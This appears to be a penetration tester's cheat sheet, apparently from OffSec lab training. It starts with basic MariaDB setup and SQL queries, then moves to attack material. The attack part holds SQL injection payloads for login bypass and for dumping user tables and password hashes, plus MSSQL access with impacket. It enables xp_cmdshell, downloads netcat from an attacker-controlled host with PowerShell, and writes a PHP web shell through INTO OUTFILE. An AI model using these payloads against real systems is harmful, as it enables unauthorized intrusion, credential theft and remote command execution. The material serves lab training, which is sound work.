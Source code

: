 ```
sudo apt install mariadb-server
sudo mysql -u root -p password
show databases;
create database school;
```

```
SELECT * FROM Teachers;

SELECT * FROM Teachers WHERE Subject = 'Math';

UPDATE Teachers SET Subject = 'Math' WHERE TeacherID = 001;

SELECT Address FROM Teachers
UNION
SELECT Address FROM Students;

DELETE FROM Teachers WHERE TeacherID = 001;
```

`192.168.174.16/?debug=true`

Easy win
`offsec' OR 1=1 -- //`

Check Version
`' or 1=1 in (select @@version) -- //`

Grab Version
`' or 1=1 in (select @@version) -- //`

Grab all Users
`' OR 1=1 in (SELECT * FROM users) -- //`

Password Hashes
`' OR 1=1 in (SELECT password FROM users) -- //`

Grab Specific User Password
`' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`



`sudo python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py Administrator:Lab123@$IP -windows-auth`

```
execute sp_configure 'show advanced options', 1;  
reconfigure;  
execute sp_configure 'xp_cmdshell', 1;  
reconfigure;  
  
execute xp_cmdshell 'whoami';
```

`execute xp_cmdshell 'powershell.exe wget http://192.168.45.202/nc.exe -OutFile c:\\Users\\Public\\nc.exe`


```
python -m http.server 80
```


' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //